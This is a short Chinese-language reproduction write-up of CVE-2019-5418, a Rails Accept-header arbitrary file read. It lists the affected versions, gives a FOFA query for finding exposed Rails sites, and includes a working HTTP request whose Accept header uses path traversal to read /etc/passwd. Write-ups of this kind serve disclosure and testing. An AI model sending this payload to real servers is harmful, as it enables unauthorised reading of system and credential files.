# Rails Accept 任意文件读取漏洞 CVE-2019-5418

## 漏洞描述

Ruby on Rails是一个 Web 应用程序框架,是一个相对较新的 Web 应用程序框架，构建在 Ruby 语言之上。这个漏洞主要是由于Ruby on Rails使用了指定参数的render file来渲染应用之外的视图，我们可以通过修改访问某控制器的请求包，通过“…/…/…/…/”来达到路径穿越的目的，然后再通过“{{”来进行模板查询路径的闭合，使得所要访问的文件被当做外部模板来解析。

## 漏洞影响

```
Rail <= 5.2.2.1
```

## FOFA

```
title="Ruby On Rails"
```

## 漏洞复现

主页面

![image-20220628111456281](./images/202206281119622.png)

验证请求包

```
GET /robots HTTP/1.1
Host: 127.0.0.1:3000
Accept-Encoding: gzip, deflate
Accept: ../../../../../../../../etc/passwd{{
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220628111940387](./images/202206281119526.png)